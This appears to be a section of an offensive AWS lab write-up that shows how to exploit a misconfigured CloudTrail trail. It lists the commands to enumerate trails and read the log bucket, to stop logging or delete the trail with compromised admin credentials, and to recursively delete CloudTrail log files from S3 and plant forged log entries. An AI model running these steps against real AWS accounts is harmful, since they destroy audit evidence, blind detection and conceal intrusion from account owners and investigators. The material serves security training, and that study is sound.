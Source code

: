 
## 1.4 Exploiting the CloudTrail Misconfiguration

The `OffensiveLabTrail` was targeted due to its disabled log file integrity validation and logging to a compromisable S3 bucket.

1.  **Understand CloudTrail Role in Security:**
    CloudTrail records API activity for auditing and forensics. Misconfigurations create blind spots.

2.  **Check for CloudTrail Configuration:**
    * **List Existing Trails:**
        ```bash
        aws cloudtrail describe-trails
        ```
    * **Check Logging Status:**
        ```bash
        aws cloudtrail get-trail-status --name my-personal-trial # Replace with your trail name
        ```
        * **Observation:** If logging is disabled, detection is off, allowing undetected actions.

3.  **Enumerate S3 Bucket for CloudTrail Logs:**
    CloudTrail logs are stored in an S3 bucket.
    ```bash
    aws s3 ls s3://my-bucket-for-trail --recursive --no-sign-request # Replace with your bucket name
    ```
    * **Result:** If accessible, could read logs (to see user actions) or identify sensitive actions/secrets.

4.  **Delete or Stop CloudTrail Logging (If Permissions Allow):**
    Using the `OverPrivilegedAdmin` user's credentials (or other compromised admin credentials):
    * **Stop Logging:**
        ```bash
        aws cloudtrail stop-logging --name my-personal-trial
        ```
    * **Delete the Trail:**
        ```bash
        aws cloudtrail delete-trail --name my-personal-trial
        ```
        * **Result:** Effectively disables detection and response for the AWS account.

5.  **Modify S3 Bucket Permissions (Log Tampering):**
    If CloudTrail logs go to an S3 bucket and the attacker has write/delete permissions on it:
    * **Delete Log Files:**
        ```bash
        aws s3 rm s3://<trail-bucket>/AWSLogs/<account-id>/CloudTrail/<region>/ --recursive
        ```
    * **Overwrite with Fake Logs:**
        ```bash
        echo "FAKE LOG ENTRY" > dummy.json
        aws s3 cp dummy.json s3://<trail-bucket>/AWSLogs/<account-id>/CloudTrail/<region>/2025/06/12/fake-log.json
        ```
        * **Result:** Erased or forged records to hide malicious activity.
